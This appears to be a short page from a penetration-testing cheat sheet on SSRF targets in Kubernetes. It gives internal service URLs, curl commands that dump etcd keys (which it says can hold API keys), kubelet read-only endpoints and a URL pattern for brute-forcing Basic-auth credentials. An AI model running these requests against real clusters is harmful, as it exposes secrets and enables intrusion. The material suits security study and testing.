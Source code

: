 # Kubernetes

```http
# Debug Services https://kubernetes.io/docs/tasks/debug-application-cluster/debug-service/
https://kubernetes.default.svc.cluster.local
https://kubernetes.default
# https://twitter.com/Random_Robbie/status/1072242182306832384
https://kubernetes.default.svc/metrics
```

Kubernetes [etcd API](https://etcd.io/docs/v2/api/) can contain API keys, internal IPs and ports:

```bash
$ curl -L http://127.0.0.1:2379/version
$ curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

{% embed url="https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/red-team-tech-notes/-/blob/master/K8s-GKE-attack-notes/README.md" %}

# kubelet

The kubelet commonly available on the default port `10250`.

{% embed url="https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster" %}

# kubelet read-only

The kubelet read-only commonly available on the default port `10255`. This port is generally only seen on older clusters, but can provide some useful information disclosure if present. It is an HTTP API which will have no encryption and no authentication requirements on it, so it is easy to interact with.

The most useful endpoint is `/pods/`:

```bash
$ curl http://[IP]:10255/pods/ | jq
```

# Abusing FTP

{% embed url="https://speakerdeck.com/bo0om/ftp2rce" %}

# Credentials bruteforce

SSRF allows you to bruteforce credentials for resources that use Basic access authentication as an authentication mechanism. To do this, just use the following link:

```http
http://login:password@target-website.com/path/
```
